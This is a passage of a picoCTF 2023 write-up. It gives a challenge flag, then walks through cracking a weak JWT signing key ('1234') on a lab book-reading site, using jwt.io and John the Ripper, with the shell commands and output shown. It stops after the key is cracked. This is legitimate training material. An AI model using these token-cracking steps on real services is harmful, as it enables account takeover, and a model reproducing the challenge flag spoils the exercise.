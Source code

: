 
**Flag: `picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`**

---

&nbsp;

&nbsp;

## **Java Code Analysis!?!**

&nbsp;

### Description

BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/479/bookshelf-pico.zip)

### Approach

Upon logging in with the provided credentials, users are assigned the free user role. The website offers three types of user roles: free, premium, and admin. Only users with the admin role have access to the flag book.

![Untitled](/write-ups/picoctf/2023/web-exploitation/web-java-1.webp)

Based on the given hints, it appears that the website is using JWT for user authentication. With this information, we can check whether it is possible to modify our user role to become an admin.

To get the authentication token, we can inspect the cookies using the Chrome Developer Tools.

![Untitled](/write-ups/picoctf/2023/web-exploitation/web-java-2.webp)

{{< url link="http://jwt.io" text="jwt.io">}} can be used to decode the token and potentially modify its contents.

![abc.png](/write-ups/picoctf/2023/web-exploitation/web-java-3.webp)

In order to modify the JWT, we would need to have the secret key used to sign it. If the secret key is not sufficiently complex, it may be possible to crack it using a tool like John the Ripper. In this particular case, John the Ripper was able to crack the key in under a second because the key was a simple one - '1234'.

```bash
┌──(kali㉿iasad)-[~/CTFs/PicoCTF]
└─$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoi
RnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4MjU0NjM2OCwiaWF
0IjoxNjgxOTQxNTY4LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.au2F6
GtDI5Zoq9ihgltHoYBKbrvutqViF2A0QalxNTw" > jwt.txt


┌──(kali㉿iasad)-[~/CTFs/PicoCTF]
└─$ john jwt.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
1234             (?)     
1g 0:00:00:00 DONE 2/3 (2023-04-19 18:01) 50.00g/s
```
